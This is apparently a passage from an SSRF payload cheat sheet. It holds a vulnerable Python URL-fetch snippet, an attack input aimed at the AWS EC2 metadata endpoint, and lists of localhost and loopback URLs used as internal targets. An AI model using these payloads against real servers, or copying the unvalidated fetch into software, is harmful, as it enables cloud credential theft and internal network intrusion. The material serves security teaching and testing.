 ## Methodology

SSRF is a security vulnerability that occurs when an attacker manipulates a server to make HTTP requests to an unintended location. This happens when the server processes user-provided URLs or IP addresses without proper validation.

Common exploitation paths:

* Accessing Cloud metadata
* Leaking files on the server
* Network discovery, port scanning with the SSRF
* Sending packets to specific services on the network, usually to achieve a Remote Command Execution on another server

**Example**: A server accepts user input to fetch a URL.

```py
url = input("Enter URL:")
response = requests.get(url)
return response
```

An attacker supplies a malicious input:

```ps1
http://169.254.169.254/latest/meta-data/
```

This fetches sensitive information from the AWS EC2 metadata service.

## Bypassing Filters

### Default Targets

By default, Server-Side Request Forgery are used to access services hosted on `localhost` or hidden further on the network.

* Using `localhost`

  ```powershell
  http://localhost:80
  http://localhost:22
  https://localhost:443
  ```

* Using `127.0.0.1`

  ```powershell
  http://127.0.0.1:80
  http://127.0.0.1:22
  https://127.0.0.1:443
  ```

* Using `0.0.0.0`

  ```powershell
  http://0.0.0.0:80
  http://0.0.0.0:22
  https://0.0.0.0:443
  ```
